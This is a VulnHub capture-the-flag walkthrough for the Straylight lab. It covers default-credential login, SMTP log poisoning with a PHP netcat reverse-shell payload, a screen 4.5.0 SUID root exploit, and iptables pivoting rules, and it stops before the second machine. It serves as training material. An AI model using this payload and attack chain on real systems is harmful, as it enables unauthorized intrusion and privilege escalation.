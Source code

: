 ```yaml
---
categories: [VulnHub]
tags: [PrivEsc]
---
```

# Straylight



## Description ⤵️

>💡 A new OSCP style lab involving 2 vulnerable machines, themed after the cyberpunk classic Neuromancer - a must read for any cyber-security enthusiast. This lab makes use of pivoting and post exploitation, which I've found other OSCP prep labs seem to lack. The goal is the get root on both machines. All you need is default Kali Linux.
<br><br>
I'd rate this as Intermediate. No buffer overflows or exploit development - any necessary password cracking can be done with small wordlists. It is much more related to an OSCP box vs a CTF. I've tested it quite a bit, but if you see any issues or need a nudge PM me here.
<br><br>
Virtual Box Lab setup instructions are included in the zip download, but here is a quick brief:
<br><br>
Straylight → simulates a public facing server with 2 NICS. Cap this first, then pivot to the final machine.
<br><br>
Neuromancer → is within a non-public network with 1 NIC. Your Kali box should ONLY be on the same virtual network as Straylight.
<br><br>
This works better with VirtualBox rather than VMware
{: .prompt-info }

Let’s find the IP Address first >>

![Untitled](/Vulnhub-Files/img/Straylight/Untitled.png)

```bash
This machine have 2 Network Adaptor therefore showing to IP but both are same :

I will be using 192.168.56.102
```

## Port Scan Results ➡️

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%201.png)

```bash
Open Ports >
25			SMTP
80			HTTP			
3000		Apache		Hadoop
```

---

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%202.png)

Let’s check different ports too →

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%203.png)

Lets try admin : admin and I got In →

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%204.png)

Lets check this option →

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%205.png)

Now access them and found this :

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%206.png)

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%207.png)

After digging deeper into `/turning-bolo/` directory I got this →

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%208.png)

Now I think it is indicating to us for looking for log files :

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%209.png)

I have also got a port for SMTP for mail purpose so lets us this to execute our payload for reverse shell access or command shell →

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%2010.png)

Now After Accesing the SMTP service I am getting this :>

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%2011.png)

This image is of source code of the previous picture .

Now it’s time to execute our reverse shell code →

```
Command : MAIL FROM:<?php system('nc -e /bin/bash 192.168.56.103 4444'); ?>
```

In response to that in netcat I recevied this →

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%2012.png)

⤵️

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%2013.png)

Now when I got a Local Privilege Escalation so lets find for SUIDs and GUIDs files →

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%2014.png)

Lets search for an exploit for `screen 4.5.0` as it is a common exploit →

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%2015.png)

Now I transfered this exploit through wget and simply executed it And I got this :

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%2016.png)

Now lets find the flag →

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%2017.png)

also I got this →

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%2018.png)

---

This is not an end !

I also got an another machine connect with this machine so lets use pivoting method to breach it too →

Now ⤵️

It time to make tunnel from straylight to Neuromancer and also to the Attacker machine So :>

```
Command : iptables -t nat -A POSTROUTING -o enp0s3 -j SNAT --to-source 192.168.56.102
```

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%2019.png)

```
command : iptables -t nat -A PREROUTING -i enp0s3 -p tcp --dport 3333 -j DNAT --to-destination 192.158.56.103
```

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%2020.png)

Now I have a connection between these 2 machines >

Now lets go to `Neuromancer` Machine →

